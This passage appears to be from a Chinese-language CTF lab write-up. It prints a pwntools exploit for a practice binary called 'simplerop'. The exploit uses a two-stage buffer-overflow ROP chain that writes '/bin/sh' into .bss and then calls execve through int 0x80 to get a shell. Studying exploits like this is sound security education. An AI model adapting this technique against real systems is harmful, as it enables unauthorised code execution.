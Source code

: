 
我的exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./simplerop")
p = process("./simplerop")

int80 = 0x080493e1
popecx_popebx = 0x0806e851
popeax = 0x080bae06
popedx = 0x0806e82a
bss_addr = 0x80ec2c0
main_addr = 0x8048e24
read = 0x806cd50
offset = 0x20


p.recvuntil(":")
rop = offset * "a"
rop += p32(read)
rop += p32(main_addr)
rop += p32(0)
rop += p32(bss_addr)
rop += p32(8)

p.sendline(rop)

from time import sleep
sleep(1)
p.send("/bin/sh\x00")

gdb.attach(p)
p.recvuntil(":")
rop = (offset - 8) * "a"
rop += p32(popeax)
rop += p32(0xb)
rop += p32(popecx_popebx)
rop += p32(0) + p32(bss_addr)
rop += p32(popedx)
rop += p32(0)
rop += p32(int80)

p.sendline(rop)

p.interactive()
```

## Lab6——migration ##
